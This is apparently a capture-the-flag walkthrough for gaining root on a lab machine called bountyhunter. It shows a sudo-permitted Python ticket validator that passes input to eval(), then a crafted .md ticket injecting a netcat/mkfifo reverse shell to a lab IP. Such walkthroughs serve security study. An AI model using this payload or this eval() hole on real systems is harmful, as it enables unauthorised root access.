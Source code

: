 # Privilege escalation to root
## development user can run following command as sudo
```bash
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```
Running command `sudo -l` tells tghat development user can run `/usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py` command as sudo.
![[Pasted image 20210916163151.png]]
## Analyzing contents of `/opt/skytrain_inc/ticketValidator.py`
```python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```
* This python script checks if ticket contained in file is valid or not.
* This script takes ticket file path as input.
* This script checks if file ends with `md` extention.
* Then scripts checks if lines of ticket file contains
	*  `# Skytrain Inc` on first line.
	* `## Ticket to` on second line.
	*  `__Ticket Code:__` on third line.
	*  Fourth line starts with `**`.
*  Then it strips of all `**` on fourth line and checks if first digit before `+`
sign gives remainder of `4` when divided by `7` to check if ticket code is valid.
* Then it evaluates the expression after stripping of all `**` and see if its total is greater than 100 to check if ticket is valid using `eval()` function.
## Exploiting `eval()` function to get reverse shell as root
First of all a file with `.md` extention was made satisfying all conditions of valid ticket in `/tmp/clarkey` directory named `a.md` which contained reverse shell code `__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.98 1234 >/tmp/f')` in statement that will evaluate using `eval()` function in
`ticketValidator.py` file. Contents of `/tmp/clarkey/a.md` are as follows.
```bash
development@bountyhunter:/opt/skytrain_inc$ cat /tmp/clarkey/a.md
# Skytrain Inc# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**4 + __import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.98 1234 >/tmp/f')**
##Issued: 2021/04/06
#End Ticket
```
Now running command `/usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py` as sudo to get reverse shell.
![[Pasted image 20210916170813.png]]





